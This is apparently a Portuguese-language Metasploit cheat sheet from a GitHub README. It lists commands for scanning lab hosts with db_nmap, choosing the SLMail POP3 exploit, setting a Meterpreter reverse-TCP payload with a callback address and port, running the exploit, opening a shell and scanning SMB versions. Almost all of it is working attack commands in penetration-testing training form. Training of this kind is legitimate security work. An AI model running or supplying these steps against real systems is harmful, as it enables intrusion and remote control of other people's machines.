 # MetaSploit Framework

Ferramenta desenvolvida pela rapid7.com para auxiliar na criação e utilização de exploits.

Iniciando MSF:
service postgresql start
msfconsole

Comando de ajuda:
msf > help

Verificando a conexão com o banco de dados:
msf > db_status

Escaneamento de alvo salvando as informações no DB:
msf > db_nmap -A 172.16.1.4

Importando arquivo XML do NMAP:
nmap -v -A 172.16.1.5 -oX host5.xml
msf > db_import host5.xml

Listagem dos hosts:
msf > hosts

Verificando vulnerabilidade nos hosts:
msf > vulns

Listagem de serviços:
msf > services

Buscando exploit:
msf > search slmail

Usando exploit:
msf > use exploit/windows/pop3/seattlelab_pass

Ver informações do exploit:
msf exploit(seattlelab_pass) > info

Setando parâmetros no exploit:
msf exploit(seattlelab_pass) > show options
msf exploit(seattlelab_pass) > set RHOST 172.16.1.4
msf exploit(seattlelab_pass) > show options

Verificando payloads disponíveis:
msf exploit(seattlelab_pass) > show payloads

Setando payload para ser utilizado:
msf exploit(seattlelab_pass) > set payload windows/meterpreter/reverse_tcp
msf exploit(seattlelab_pass) > show options
msf exploit(seattlelab_pass) > set LHOST 172.20.0.2
msf exploit(seattlelab_pass) > set LPORT 4444
msf exploit(seattlelab_pass) > show options

Executando exploit:
msf exploit(seattlelab_pass) > exploit
meterpreter > ipconfig

Verificando comandos no meterpreter:
meterpreter > help

Abrindo o shell:
meterpreter > shell

Colocando meterpreter em segundo plano:
meterpreter > background

Retomando meterpreter:
msf > session -i 4

Exibindo módulos auxiliares:
msf > show auxiliary

Utilizando um módulo auxiliar:
msf > use auxiliary/scanner/smb/smb_version
msf > show options
msf > set RHOSTS 172.16.1.5
msf > run
